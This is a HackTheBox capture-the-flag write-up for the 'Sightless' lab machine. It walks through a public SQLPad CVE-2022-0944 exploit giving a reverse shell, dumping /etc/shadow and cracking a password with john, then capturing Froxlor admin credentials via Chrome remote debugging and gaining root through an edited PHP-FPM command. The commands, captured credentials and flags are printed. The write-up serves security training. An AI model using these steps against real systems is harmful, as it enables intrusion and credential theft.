










# Sightless - HackTheBox - Writeup
Linux, 30 Base Points, Easy



## Machine


 
## TL;DR

To solve this machine, we start by using `nmap` to enumerate open services and find ports `21`, `22`, and `80`.

**User**: Using `CVE-2022-0944`, we gained a reverse shell on `SqlPad 6.10.0` as `root` within the `SqlPad` container. By running `cat /etc/shadow`, we located the hashed password for `michael`. We cracked it using `john`, successfully retrieving `michael`’s credentials.

**Root**: Discovered `Froxlor` running on port `8080`. Using an SSH tunnel, we accessed the `Chrome remote debugger`, obtained the `Froxlor` password, and logged into `Froxlor`. We then achieved RCE through a version edit in `PHP-FPM`.




## Sightless Solution

### User

Let's begin by using `nmap` to scan the target machine:

```console
┌─[evyatar9@parrot]─[/hackthebox/Sightless]
└──╼ $ nmap -sV -sC -oA nmap/Sightless 10.10.11.32
Starting Nmap 7.93 ( https://nmap.org ) at 2024-11-14 23:22 IST
Nmap scan report for 10.10.11.32
Host is up (0.076s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (sightless.htb FTP Server) [::ffff:10.10.11.32]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 c96e3b8fc6032905e5a0ca0090c95c52 (ECDSA)
|_  256 9bde3a27773b1be1195f1611be70e056 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://sightless.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port21-TCP:V=7.93%I=7%D=11/14%Time=67366A42%P=x86_64-pc-linux-gnu%r(Gen
SF:ericLines,A0,"220\x20ProFTPD\x20Server\x20\(sightless\.htb\x20FTP\x20Se
SF:rver\)\x20\[::ffff:10\.10\.11\.32\]\r\n500\x20Invalid\x20command:\x20tr
SF:y\x20being\x20more\x20creative\r\n500\x20Invalid\x20command:\x20try\x20
SF:being\x20more\x20creative\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Observing port `80`, we see that the following web page is hosted:


In the [Services Section](http://sightless.htb/#service), we can see `SQLPad`, which navigates to http://sqlpad.sightless.htb/queries/new:



It is identified as `SqlPad 6.10.0`. We can use https://github.com/0xRoqeeb/sqlpad-rce-exploit-CVE-2022-0944 to obtain a reverse shell as follows:

```console
┌─[evyatar9@parrot]─[/hackthebox/Sightless]
└──╼ $ python3 exploit.py http://sqlpad.sightless.htb/ 10.10.14.14 4242
Response status code: 400
Response body: {"title":"connect ECONNREFUSED 127.0.0.1:3306"}
Exploit sent, but server responded with status code: 400. Check your listener.

```

We obtain a reverse shell as `root` inside the container:
```console
┌─[evyatar9@parrot]─[/hackthebox/Sightless]
└──╼ $ nc -lvp 4242
listening on [any] 4242 ...
connect to [10.10.14.13] from sightless.htb [10.10.11.32] 58488
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@c184118df0a6:/var/lib/sqlpad# ls
ls
cache
sessions
sqlpad.sqlite

```

By running `cat /etc/shadow`, we can see the hashed password of the `michael` user:
```console
root@c184118df0a6:/var/lib/sqlpad# cat /etc/shadow
cat /etc/shadow
root:$6$jn8fwk6LVJ9IYw30$qwtrfWTITUro8fEJbReUc7nXyx2wwJsnYdZYm9nMQDHP8SYm33uisO9gZ20LGaepC3ch6Bb2z/lEpBM90Ra4b.:19858:0:99999:7:::
daemon:*:19051:0:99999:7:::
bin:*:19051:0:99999:7:::
sys:*:19051:0:99999:7:::
sync:*:19051:0:99999:7:::
games:*:19051:0:99999:7:::
man:*:19051:0:99999:7:::
lp:*:19051:0:99999:7:::
mail:*:19051:0:99999:7:::
news:*:19051:0:99999:7:::
uucp:*:19051:0:99999:7:::
proxy:*:19051:0:99999:7:::
www-data:*:19051:0:99999:7:::
backup:*:19051:0:99999:7:::
list:*:19051:0:99999:7:::
irc:*:19051:0:99999:7:::
gnats:*:19051:0:99999:7:::
nobody:*:19051:0:99999:7:::
_apt:*:19051:0:99999:7:::
node:!:19053:0:99999:7:::
michael:$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:19860:0:99999:7:::

```

Let's use `john` to crack the password:
```console
┌─[evyatar9@parrot]─[/hackthebox/Sightless]
└──╼ $ john --wordlist=~/Desktop/rockyou.txt hash
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 SSE2 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
insaneclownposse (michael)

```

We obtain the password `insaneclownposse`. Let's use it to log in via SSH:
```console
┌─[evyatar9@parrot]─[/hackthebox/Sightless]
└──╼ $ ssh michael@sightless.htb
michael@sightless.htb's password: 
Last login: Tue Sep  3 11:52:02 2024 from 10.10.14.23
michael@sightless:~$ cat user.txt
e293b9ccd01b9194641dd101897e32ea
```

And we get the user flag `e293b9ccd01b9194641dd101897e32ea`.

### Root

By running `netstat`, we can see that we are listening on port `8080`:
```console
michael@sightless:~$ netstat -tulpan
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:38441         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:46841         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
...
```

Let's connect again and use an SSH tunnel to port `8080`:
```console
┌─[evyatar9@parrot]─[/hackthebox/Sightless]
└──╼ $ ssh -L 3000:127.0.0.1:8080  michael@sightless.htb
michael@sightless.htb's password: 
Last login: Thu Nov 14 23:24:14 2024 from 10.10.14.14
michael@sightless:~$ 
```

By browsing to `http://127.0.0.1:3000`, we get the following web page:



To gain access to the Froxlor dashboard, we can use the `chrome remote debugger` exploit. There is an execution policy issue in the PHP-FPM configuration for the user `michael` in `Froxlor`.

We can do this as follows:
```console
┌─[evyatar9@parrot]─[/hackthebox/Sightless]
└──╼ $ ssh -L 42253:127.0.0.1:38441 michael@sightless.htb 
michael@sightless.htb's password: 
Last login: Thu Nov 14 23:28:24 2024 from 10.10.14.14
michael@sightless:~$

```

Now, let's run `chrome` as follows: `/usr/bin/google-chrome --remote-debugging-port=12345` and navigate to `chrome://inspect/#devices`. Click on `Configure` and enter `localhost:12345`:



We can now see two items under `Remote Target`. Let's click on `Inspect` (note: we need to add `admin.sightless.htb` to the `/etc/hosts` file beforehand):



This takes us to the dashboard:



We can retrieve the login request from the `login.php` request body:



Here, we can see the credentials `admin:ForlorfroxAdmin`.

To get RCE, navigate to [PHP->PHP-FPM version](http://127.0.0.1:3000/admin_phpsettings.php?page=fpmdaemons&action=edit&id=1):



We can replace `service php8.1-fpm restart` with our own command:
```console
michael@sightless:~$ cat runme.sh 
cp /root/root.txt /home/michael/root.txt
chmod 444 /home/michael/root.txt
```

Let's change it to `bash /home/michael/runme.sh`. To trigger the command, we need to disable and then re-enable `PHP-FPM` from [this page](http://127.0.0.1:3000/admin_settings.php?page=overview&part=phpfpm).

After re-enabling `PHP-FPM`, our code is executed, and we can see the `root.txt` file:
```console
michael@sightless:~$ ls -ltra
total 40
-rw-r--r-- 1 michael michael  807 Jan  6  2022 .profile
-rw-r--r-- 1 michael michael 3771 Jan  6  2022 .bashrc
-rw-r--r-- 1 michael michael  220 Jan  6  2022 .bash_logout
drwx------ 2 michael michael 4096 May 15  2024 .ssh
drwxr-xr-x 4 root    root    4096 May 15  2024 ..
lrwxrwxrwx 1 root    root       9 May 21 18:49 .bash_history -> /dev/null
-rw-r----- 1 root    michael   33 Nov 13 21:34 user.txt
-r--r--r-- 1 root    root      33 Nov 15 00:20 root.txt
drwxrwxr-x 3 michael michael 4096 Nov 15 00:24 .local
-rwxrwxrwx 1 michael michael  148 Nov 15 00:24 runme.sh
drwxr-x--- 4 michael michael 4096 Nov 15 00:24 .
michael@sightless:~$ cat root.txt 
fce4c758846623ecf0a44ee0bd93344a
```

And we get the root flag `fce4c758846623ecf0a44ee0bd93344a`.